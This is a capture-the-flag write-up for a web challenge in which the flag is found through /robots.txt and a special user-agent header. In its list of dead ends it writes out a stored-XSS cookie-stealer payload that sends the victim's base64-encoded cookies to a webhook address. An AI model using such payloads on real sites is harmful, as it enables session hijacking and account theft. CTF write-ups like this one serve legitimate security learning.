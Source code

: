 # Secret Agent (500p)
## Challenge Description  

<em> In the world of spies, secrets are a part of your living. Someone that is more that familliar with this is Ghost. Ghost has handled some of the most notorious and famour spies through all times. Does James Bond and Natasha Romanoff ring any bells? Well, they should.

How did they (and so many more) become so successful in their line of duty? They had help of course! By no other than Ghost. While they've been showing off in the spotlights, he's been there in the background.

Since he hates robots and AI, we have had the honor of having him joining our ranks in the war against the machines. Ghost only communicate and share his secrets (that his double agents provides him with) through a secure commiuncation channels.

He is, however, secrative and will not spill any of his beans to anyone he belives to be a robot that is just probing him for information. We know that he has some secret to share, please convince him that you are human and it will be worth all the candy in the world.

Note: This challenge will reset every 15 minutes.

Author: Jimmie Rudvall  
https://secret-agent.appsec.nu </em>

## Thought Process
- "There is user input, it must be something related to that, like XSS or SQLi!" I found unfiltered stored XSS and could do a cookie stealer attack with `<img src="lol" onerror=window.location="*my_webhook.site_address*/?cookie="+btoa(document.cookie)>`, but with no one else visiting the page (session was unique to your current PHPSESSID cookie), I could only steal my own cookie.
- Desc hints at Ghost only communicating through secure channels, so I tried both http and https as well as modifying `Httponly` and `Secure` attributes of the cookie to `True`
- Desc hints at Ghost hating robots, so desperately use stored XSS to modify my appeared name and profile picture in the chat into something that is more "human"
- Landing page is `index.php`, desperately try `index.html`. It works, a different page! (This was just another rabbithole...)
- Description says something about hating robots, so try "Human" as user agent maybe?
- Throwing pretty much everything I got at the app (too much to list), while re-reading the description for potential missed hints every 30 minutes
- `gobuster` (directory enumeration tool) with several extensions (for example `.txt`,`.php`,`.js`) overload the server and cause requests to fail. A very useful tool, but not usually for CTF:s as it becomes stressful for the servers, and as such, challengemakers don't construct challenges with brute-forcing as the intended solution. I try anyway in desperation, without the extensions to get it to complete, and I find `index.html`(which I had already manually found) and `robots.txt`... Oh no, don't tell me ...

## Solution
1. Once again: less is more. Check out `/robots.txt` where we are informed of an allowed user-agent: `I-Solemnly-Swear-That-I-Am-No-Robot`. (Checking out `/robots.txt` is a common step in the enumeration phase of a web pentest, as it is easy to do and can provide valuable info regarding the structure of the site. Do not be like me and neglect this simple yet crucial thing for the longest time.)
2. Request `index.php` with the special user-agent (Can be done with a proxy service like `Burpsuite`, with `curl` or even in the Network tab of the browser inspector), and the flag is there.
